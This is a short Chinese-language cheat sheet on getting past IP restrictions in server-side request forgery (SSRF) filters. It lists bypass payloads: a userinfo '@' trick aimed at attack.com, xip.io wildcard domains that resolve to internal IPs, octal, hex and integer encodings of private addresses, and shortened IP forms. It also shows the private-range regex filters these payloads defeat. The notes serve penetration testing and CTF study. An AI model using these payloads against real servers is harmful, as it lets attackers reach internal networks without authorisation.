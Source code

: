 # 0x01 前言
通常SSRF里的绕过，是指对请求IP限制的绕过。

# 0x02 绕过方法汇总
## 法一： http基础认证
http基础认证 user@domain.com

情景一： 后端对url进行解析，然后根据解析得到的host结果进行过滤，限制好了只能调用一个固定的域名,如www.baidu.com下的内容

payload：
```
www.baidu.com@attack.com
```

## 法二：xip.io
传送门：http://xip.io/ 。它处理类似[ip].xip.io的dns解析请求时,返回的ip总是指向[ip]。

情景一：单纯请求 www.baidu.com 时
payload1:
```
111.13.100.91.xip.io
```

情景二：后端对请求是否是内网地址做了过滤。
payload2:
```
http://内网ip.xip.io
```

## 法三：IP化妆
情景一： 后端进行了正则匹配的方法过滤内网ip：
```
    ^10(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){3}$

    ^172\.([1][6-9]|[2]\d|3[01])(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$

    ^192\.168(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$
```
可以对ip进行进制编码，从而绕过。比如对于 192.168.0.1
payload1:
```
    (1)、8进制格式：0300.0250.0.1

    (2)、16进制格式：0xC0.0xA8.0.1

    (3)、10进制整数格式：3232235521

    (4)、16进制整数格式：0xC0A80001

```

利用一些特殊缩写。比如对于：10.0.0.1
payload2：
```
10.1
```

# 0x03 Refference
+ [SSRF漏洞中绕过IP限制的几种方法总结 ](http://www.freebuf.com/articles/web/135342.html)
+ [math1as:CUIT-CTF WriteUp总结](http://www.math1as.com/index.php/archives/70/)